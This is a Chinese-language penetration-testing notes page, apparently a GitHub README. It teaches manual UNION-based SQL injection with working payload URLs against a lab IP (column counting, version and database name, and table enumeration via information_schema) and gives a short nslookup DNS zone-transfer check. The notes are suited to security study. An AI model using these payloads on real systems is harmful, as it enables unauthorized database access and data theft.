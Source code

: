 #Pentester
##一、sql injection
![image](http://www.sheawong.com/wp-content/uploads/2013/08/keephatin.gif)
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据

###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列

- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名


- 参考：http://drops.wooyun.org/tips/123
##二、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

